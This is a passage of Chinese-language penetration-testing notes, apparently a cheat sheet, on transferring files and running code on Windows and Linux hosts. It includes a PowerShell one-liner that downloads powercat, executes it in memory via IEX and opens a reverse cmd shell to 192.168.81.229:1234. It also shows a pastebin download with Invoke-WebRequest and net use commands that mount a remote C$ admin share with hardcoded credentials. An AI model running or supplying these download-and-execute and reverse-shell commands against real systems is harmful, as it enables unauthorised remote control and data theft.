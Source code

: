 2. Invoke-WebRequest

   - `Powershell` 的一个 `cmdlet`, 用于发送http或https请求到指定url

     ```cmd
     powershell Invoke-WebRequest -uri "https://pastebin.com/raw/M676F14U" -OutFile "$env:temp\s.txt"
     ```

3. DownloadString

   - `WebClient` 对象的`DownloadString` 方法，下载指定url的内容作为字符串

     ```cmd
     powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('https://gitee.com/yijingsec/powercat/raw/master/powercat.ps1');powercat -c 192.168.81.229 -p 1234 -e cmd"
     ```

   - `IEX`: `powershell` 内置命令, 用于立即执行字符串形式的脚本代码

   - `-c`: 指定目标IP

   - `-p`: 指定端口

   - `-e`: 指定执行的命令

### SCP

- `Linux`和`Windows`文件互传

- 下载文件

  ```cmd
  # 下载单个文件
  scp zjudge@192.168.1.165:~/test.hta test.hta
  
  # 下载目录
  scp -r zjudge@192.168.1.165:~/Document document/
  ```

- 上传文件

  ```cmd
  # 单个文件
  scp test.txt root@192.168.81.229:/tmp/test.txt
  
  # 目录
  scp -r password/ root@192.168.81.229:/tmp/pass/
  ```

### net use

- windows 系统命令，将共享资源映射到本地计算机

  ```cmd
  # 显示建立的网络共享连接
  net use
  
  # 与远程主机建立连接，并映射到本地
  net use k: \\192.168.1.165\C$ /user:vagrant "vagrant"
  
  # 列出远程主机C盘目录
  dir \\192.168.1.165\C$
  
  # 下载远程主机文件
  copy \\192.168.81.227\c$\6666.hta c:\6666.hta
  ```
